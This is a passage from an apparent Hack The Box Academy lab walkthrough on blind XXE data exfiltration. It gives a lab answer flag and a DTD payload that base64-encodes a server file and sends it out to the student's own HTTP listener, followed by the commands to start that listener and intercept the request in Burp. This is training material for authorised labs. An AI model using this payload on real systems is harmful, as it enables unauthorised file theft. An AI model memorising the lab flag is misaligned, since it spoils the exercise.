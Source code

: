 ![[HTB Solutions/CPTS/z. images/f96f7d801f634a50d84df2fb443ee2ae_MD5.jpg]]

Answer: `HTB{3rr0r5_c4n_l34k_d474}`

# Blind Data Exfiltration

## Question 1

### "Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag."

After spawning the target machine, students first need to create the OOB DTD file on Pwnbox/`PMVPN`:

Code: shell

```shell
cat > XXE.dtd << EOF
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://PWNIP:PWNPO/?content=%file;'>">
EOF
```

```
┌─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ cat > XXE.dtd << EOF
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.134:8000/?content=%file;'>">
EOF
```

Afterward, students need to start an HTTP server:

Code: shell

```shell
python3 -m http.server PWNPO
```

```
┌─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Afterward, students need to run `Burp Suite`, make sure that FoxyProxy is set to the preconfigured option "Burp (8080)" in Firefox, and intercept the request to `/blind/submitDetails.php` to change its request method from `GET` to `POST`:

![[HTB Solutions/CPTS/z. images/da7cd1f64780f66cbc19fbd95891a791_MD5.jpg]]
